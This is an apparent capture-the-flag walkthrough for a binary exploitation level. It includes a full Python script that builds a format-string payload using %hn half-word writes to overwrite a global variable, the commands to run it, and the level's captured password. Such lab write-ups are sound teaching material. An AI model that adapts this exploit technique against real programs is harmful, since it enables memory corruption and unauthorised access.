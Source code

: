 # Level 04 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The global variable `m` (address: 0x08049810) must be set to 0x01025544 to trigger the call to `system("/bin/cat /home/user/level5/.pass")`.

Relevant code:
```
0804847a        char buf[0x208]
0804847a        fgets(&buf, n: 0x200, fp: __bss_start)
08048488        p(&buf)
0804848d        uint32_t m_1 = m
08048497        if (m_1 != 0x1025544)
080484a6            return m_1
080484a0        return system(line: "/bin/cat /home/user/level5/.pass")
```

## Exploitation

We use a format string payload to write 0x01025544 into the global variable `m` using two half-word writes.

Python script to generate the payload:
```python
import struct

def p32(n):
    return struct.pack("<I", n)

OFFSET = 12
WRITE_ADDR = 0x08049810
WRITE_VAL = 0x01025544

val_low = WRITE_VAL & 0xFFFF
val_high = (WRITE_VAL >> 16) & 0xFFFF

addr_low = WRITE_ADDR
addr_high = WRITE_ADDR + 2

writes = [
    (addr_low, val_low),
    (addr_high, val_high),
]
writes.sort(key=lambda x: x[1])

addrs_part = b"".join(p32(addr) for addr, val in writes)

format_part = b""

written_bytes = len(addrs_part)

for i, (addr, val) in enumerate(writes):
    padding = (val - written_bytes) & 0xFFFF
    if padding == 0:
        padding = 0x10000
    param_num = OFFSET + i
    format_part += b"%" + str(padding).encode('ascii') + b"x"
    format_part += b"%" + str(param_num).encode('ascii') + b"$hn"
    written_bytes += padding

payload = addrs_part + format_part

with open("payload.txt", "wb") as f:
    f.write(payload)
```

## Commands used

```
cat payload.txt | ./level4
ls
cat /home/user/level5/.pass
```

## Result

After running the exploit, we get the password for level5:

```
cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
